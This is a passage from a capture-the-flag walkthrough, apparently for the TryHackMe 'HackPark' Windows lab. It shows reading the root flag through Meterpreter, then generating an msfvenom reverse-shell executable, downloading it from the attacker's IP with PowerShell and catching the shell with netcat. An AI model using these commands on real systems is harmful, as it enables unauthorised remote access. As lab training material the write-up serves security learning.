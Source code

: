 **Question : What is the user flag (on Jeffs Desktop)?**  
**Answer : HIDDEN**  

And now the root flag since we are Administrator :  
```
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1029  fil   2019-08-04 13:36:42 +0200  System Scheduler.lnk
100666/rw-rw-rw-  282   fil   2019-08-03 19:43:54 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 20:51:42 +0200  root.txt

meterpreter > cat root.txt
**************************************
```

**Question : What is the root flag ?**  
**Answer : HIDDEN**  

### Without metasploit

Now, we will try to elescalate our privileges without [Metasploit](https://www.metasploit.com/). We will generate a more simple payload :  
```
attacker@AttackBox:~/Documents/THM/CTF/HackPark$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Let's download it using our netcat unstable shell like we did for the meterpreter shell before :  
```
c:\windows\system32\inetsrv>
powershell -c "wget 10.14.31.20/shell.exe -outfile C:\inetpub\wwwroot\App_Data\files\shell.exe      
c:\windows\system32\inetsrv>powershell -c "wget 10.14.31.20/shell.exe -outfile C:\inetpub\wwwroot\App_Data\files\shell.exe
```

Then, we can set up another netcat listener on port 4243 and then execute shell.exe :  
```
attacker@AttackBox:~/Documents/THM/CTF/HackPark$ nc -lnvp 4244
listening on [any] 4244 ...
connect to [10.14.31.20] from (UNKNOWN) [10.10.27.14] 49375
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\inetpub\wwwroot\App_Data\files>
```
